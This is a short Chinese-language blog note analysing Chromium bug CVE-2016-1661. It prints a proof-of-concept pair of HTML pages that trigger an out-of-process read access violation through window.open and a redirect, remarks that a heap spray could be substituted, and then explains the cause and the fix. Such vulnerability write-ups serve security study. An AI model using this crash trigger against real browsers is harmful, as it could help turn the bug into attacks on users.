 ```yaml
---
layout: post
title: "CVE-2016-1661"
categories: notes
tags: CVE分析
---
```


```
https://bugs.chromium.org/p/chromium/issues/detail?id=601629
```

POC

```
// http://a.com/crash.html
<html>
<iframe id="iframe1" src="" style="display:none;"></iframe>
<button onclick='crash1();'>crash 1</button>

<script>

function crash1(){

//open window a in another renderer process.
a=window.open();
a.opener=null;
a.location.href="http://b.com/redirection.html";

//loading an iframe. This can be replaced by a heap spray.
document.getElementById("iframe1").src="anything.com";

//reading a.location after a while will cause a read access violation. 
setTimeout(function(){ 
alert(a.location) // crash
}, 3000);
}

</script>

</html>

// http://b.com/redirection.html

<script>

if(window.location=="http://b.com/redirection.html"){  

//redirect to 127.0.1.1
window.location="http://a.com/anything.html";

}

</script>

```

### 原因

chromium渲染页面时，通过[一定的规则](https://www.chromium.org/developers/design-documents/process-models#Caveats)，会导致在不同的进程中渲染同一站点的页面。

由于同源策略允许，那么不同网站渲染的A页面和B页面理应能够相互读取。但是由于二者在不同进程，读取对象时，只能读取当前进程的地址空间，这就导致了非法读。

chromium的修复方式为限定不同进程的窗口的页面之间不同源(其实和同源策略的理念相悖了)。

具体修复代码不贴了，就是判断了下targetFrame是否本地窗口。





